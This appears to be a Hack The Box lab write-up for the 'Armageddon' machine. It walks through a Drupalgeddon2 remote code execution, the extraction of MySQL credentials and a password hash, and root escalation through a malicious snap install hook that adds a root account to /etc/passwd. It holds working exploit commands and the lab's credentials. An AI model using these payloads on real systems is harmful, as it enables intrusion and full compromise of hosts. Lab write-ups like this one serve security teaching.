


<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.233 armageddon.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

* nmap found robots.txt file on the server.

## Identify CMS

* wappalyzer identify cms is drupal 7


* Running [droopescan](https://github.com/droope/droopescan) found the drupal version


* searching for exploit in searchsploit found RCE



# Foothold

## Drupal property injection: Drupalgeddon 2

* [CVE-2018-7600/SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)
  * A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.
* [gotmilk gist of different drupal drupalgeddon2 PoCs](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708)

```bash
id=$(curl -k -s 'http://armageddon.htb/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=id' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id | cut -d'"' -f6) && echo $id

curl -s "http://armageddon.htb/?q=file/ajax/name/%23value/$id" \
    --data "form_build_id=$id" | head -n -1
```



**Exploit Script**

* Drupalgeddon2 Exploit script from [dreadlocked@github](https://github.com/dreadlocked/Drupalgeddon2)


Got a restricted shell on the box.

### Execute mysql in non interactive shell

shell is almost completely disconnected and restricted from file system. nothing to do here.

back to web server, found a file `/update.php` that tells access dinied and refer to `settings.php`
* Drupal cms sites all config settings available in the `../sites/<site-name>/settings.php`


Found mysql database password in `settings.php` file


creds are working but don't have interactive shell


Using mysql commandline flags to execute database command
```bash
-e, --execute=name  Execute command and quit.
-D, --database=name Database to use.
```

and found admin password hash who is also the user in the box
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'SELECT * FROM users;'
```


admin user hash cracked with john 
```bash
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```


successfully login to ssh with admin creds


# Privesc

## `snap install` with sudo
<!--brucetherealadmin:booboo-->

in the box user "brucetherealadmin" have sudo right to run `/usr/bin/snap` as root with NOPASSWD.
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Found Exploit on [gtfobins](https://gtfobins.github.io/gtfobins/snap/)

**Create snap package**
* Generate password hash with command `openssl passwd "Password"`
```bash
COMMAND='echo "toor:VmIEBMKbM9avc:0:0:root/root:/bin/bash" >> /etc/passwd'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p 'booboo' scp ./xxxx_1.0_all.snap brucetherealadmin@armageddon.htb:/home/brucetherealadmin/snap
```

And finally run
```bash
sudo -u root /usr/bin/snap install * --dangerous --devmode
```


